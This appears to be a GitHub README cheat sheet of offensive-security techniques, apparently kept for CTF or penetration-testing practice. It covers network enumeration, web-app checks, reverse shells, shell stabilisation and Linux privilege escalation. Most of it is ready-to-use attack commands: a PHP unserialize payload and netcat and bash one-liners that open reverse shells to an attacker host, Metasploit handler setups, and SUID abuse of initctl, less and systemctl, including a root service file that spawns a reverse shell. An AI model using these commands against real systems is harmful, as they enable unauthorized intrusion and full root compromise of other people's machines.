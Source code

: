 # CyberCheatSheets
Reference Sheets / Notes of techniques learned

## Enumeration:
+ <b>Samba - Shares & Users</b>
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 192.168.0.1
```

+ <b>NFS - Mounts</b>
```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 192.168.0.1
```

## Web Apps:
+ <b>Check for vhost routing, modify /etc/hosts</b>
+ <b>.php files may have .bak (backup)</b>
+ <b>RCE via PHP Unserialize</b>
```
https://notsosecure.com/remote-code-execution-via-php-unserialize/
+ serialize as necessary as a parameter
public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/192.168.0.1/4242 0>&1\'"); ?>';
```
+ <b>Check for insecure redirects</b>
Open up ZAP/Burpsuite, capture the 302 response, change the status code from 302 to 200 and change the location field.

![image](https://user-images.githubusercontent.com/34889665/120560666-1e5e2680-c3d1-11eb-8d61-7dbd590ab5e5.png)
+ <b>Check for exposed /.git directory</b> 

Clone repository:
```bash
wget --mirror -I .git TARGET.COM/.git/ 
```

Get files from last commit:
```bash
git checkout -- .
```

Check out commit log:
```bash
git log
```

Check out previous commit:
```bash
git checkout 123456789
```

## Reverse Shells:
+ <b>Listen for ping (ICMP echo)</b>
``` console
$ tcpdump -i <interface> icmp
```


+ <b>Netcat - Listener</b>
```console
$ nc -nvlp 4242
```

+ <b>Netcat - Connecting to Listener</b>
```console
$ nc -e /bin/sh 192.168.0.1 4242
```

+ <b>Netcat - Connecting to Listener without `-e`</b>
```console
$ mknod /tmp/backpipe p
$ /bin/sh 0</tmp/backpipe | nc <attacker_ip> 4242 1>/tmp/backpipe
```
+ <b>Metasploit - Listener</b>
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/shell/reverse_tcp
OR
set PAYLOAD linux/x86/shell/reverse_tcp
set LHOST 192.168.0.1
set LPORT 4242
run
```

## Upgrading/Stablizing Shells:

+ <b>Shell To Meterpreter</b>
```bash
(After shell has been backgrounded in Metasploit)
use post/multi/manage/shell_to_meterpreter
set SESSION 1
run
(OR)
sessions -u 1
```

+ <b>Using Python</b>

*Upgrading:*
```console
python -c ‘import pty;pty.spawn(“/bin/bash”)’
$ export TERM=xterm
```

*Stablizing:*
```console
$ ^Z
$ stty raw -echo; fg
(ENTER)
```
## Post-Meterpreter Shell To-Do's:
+ <b>Background Meterpreter Session</b>
```console
^Z
Y
```
+ <b>Use Local Exploit Suggester</b>
```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

### Windows Target:
+ <b>Get System Info (from meterpreter session)</b>
```
sysinfo
```

+ <b>Get System Info (standard shell) *look for hotfixes*</b>
```
systeminfo
```

## Enumeration:
+ <b>LinPEAS</b>
```
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
```


## Privilege Escalation:

+ <b>/sbin/initctl</b>
```
Check current status of services
sudo -u root /sbin/initctl list
```
```
Add this to test.conf
script
    chmod +s /bin/bash
end script
```
```
sudo /sbin/initctl start test.conf
$/bin/bash -p
#whoami
```

+ <b>less</b>
```
less [file in path user is allowed to execute less as root with]
!/bin/sh
```

+ <b>Add '.' to $PATH</b>
```
PATH=.:${PATH}
```

+ <b>Check for processes running as root</b>
```
ps -aux | grep root
```

+ <b>Check for world writable files</b>

```
find / -perm -2 -type f 2>/dev/null
```


+ <b>`/bin/systemctl` SUID</b>

*Check if `/bin/systemcl` is exploitable*
```
find / -perm -u=s -type f 2>/dev/null
```
or
```
find / -perm -4000 2>/dev/null
```

*Write service file with printf (will be written to `/tmp/root.service`)*
```
printf '[Unit]\nDescription=root\n\n[Service]\nType=simple\nUser=root\nExecStart=/bin/bash -c "bash -i >& /dev/tcp/192.168.0.1/4242 0>&1"\n\n[Install]\nWantedBy=multi-user.target\n' > /tmp/root.service
```

*Enable and start the service*
```
systemctl enable /tmp/root.service
systemctl start root
```
